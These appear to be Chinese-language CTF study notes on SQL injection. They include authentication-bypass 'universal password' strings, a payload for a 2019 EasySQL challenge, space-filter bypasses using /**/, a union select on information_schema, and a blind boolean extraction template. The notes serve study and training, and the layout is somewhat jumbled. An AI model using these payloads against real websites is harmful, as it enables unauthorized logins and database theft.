 |               Column               |               测试1                |               测试2                |
| ---------------------------------- | ---------------------------------- | ---------------------------------- |
|              ?id=1''               |              ?id='1'               |                                    |
|                $id                 |                1''                 |                '1'                 |
|              $id结果               |                正常                |                正常                |
|               '$id'                |               '1'''                |               ''1''                |
|             '$id'结果              |                正常                |                错误                |


1. 在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

PHP 优先级从高到低是：&&、||、and、or。

        $a || $b and $c || $d
        //相当于
        ($a || $b) and ($c || $d)

构造 username=admin or 1=1 和 passwd=admin or 1=1即可

        payload：?username=admin' or '1'='1&password=123' or '1'='1
        替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';

其他万能密码, 有时不能为空（过滤了空字符）

    1' or 1=1 #
    uname=1' or 1=1 #&passwd=any
    uname=1' or '1=1'#&passwd=any
    select * from user where uname = '222' and upass = '222' 
    select * from user where uname = '222' and upass = '222' or 1=1
    select * from user where uname = '222' and upass = '222' or '1=1#'
    select * from user where uname = '222' and upass = '222' or '1'='1'

过滤空格, 用/**/代替
    
    先输入1，再输入1'，页面报语法错误，再输入1 '页面出现SQLi detected!，推出空格被它过滤了
    '/**/or/**/id=4/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1

```
/*!union*/ 绕过union过滤
```

fuzz后能用 
```python
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```
## 基础介绍

### 如何判断注入点
GET请求不要用#, 用%23代替
POST请求要用#
